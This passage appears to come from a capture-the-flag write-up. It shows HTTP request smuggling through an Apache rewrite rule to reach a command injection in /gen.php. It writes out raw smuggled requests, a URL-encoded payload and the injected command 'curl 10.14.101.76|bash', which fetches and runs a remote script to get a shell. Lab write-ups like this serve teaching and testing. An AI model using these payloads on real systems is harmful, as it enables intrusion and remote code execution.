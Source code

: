 ```
GET /index.php?page=test HTTP/1.1
Host: localhost

GET /SMUGGLED HTTP/1.1
Host: backend
...
```

Now with this, if we were able to make a POST request like this to the backend, we could exploit the command injection on `/gen.php` and get a shell:

```console
POST /gen.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

length=;curl 10.14.101.76|bash;
```

> Make sure the `Content-Length` value matches the actual length of the request body.
{: .prompt-warning }

To actually smuggle this request, we can simply set our payload after `/page/` in the URL to:

```console
test HTTP/1.1
Host: localhost

POST /gen.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

length=;curl 10.14.101.76|bash;

GET /test
```

> We actually smuggle a second request after our smuggled POST request to prevent " HTTP/1.1" and any headers appended by **Apache** from interfering with our payload.
{: .prompt-tip }

Encoded as:
```
test%20HTTP/1.1%0D%0AHost:%20localhost%0D%0A%0D%0APOST%20/gen.php%20HTTP/1.1%0D%0AHost:%20localhost%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%2031%0D%0A%0D%0Alength=;curl%2010.14.101.76%7Cbash;%0D%0A%0D%0AGET%20/test
```
{: .wrap }

When this is transformed by the rewrite rule, it would end up on the backend like:

```
GET /index.php?page=test HTTP/1.1
Host: localhost

POST /gen.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

length=;curl 10.14.101.76|bash;

GET /test HTTP/1.1
Host: backend
...
```
